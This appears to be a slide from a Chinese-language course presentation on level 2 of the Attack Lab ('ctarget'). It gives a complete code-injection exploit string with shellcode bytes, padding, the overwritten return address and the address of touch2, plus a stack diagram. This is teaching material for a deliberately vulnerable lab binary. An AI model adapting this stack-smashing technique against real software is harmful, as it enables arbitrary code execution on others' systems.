

# 任务3：ctarget level2
攻击字符串：
'movq $0x59b997fa,%rdi; ret’
 48 c7 c7 fa 97 b9 59 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* Address of shellcode */
78 dc 61 55 00 00 00 00
/* Address of touch2 */
2f 1e 40 00 00 00 00 00

rsp的值
…
buf[39-32]
buf[31-24]
…
c3 55 61 d6 78 c7 c7 48
rSP
Touch2地址
0x5561dc78
 -6-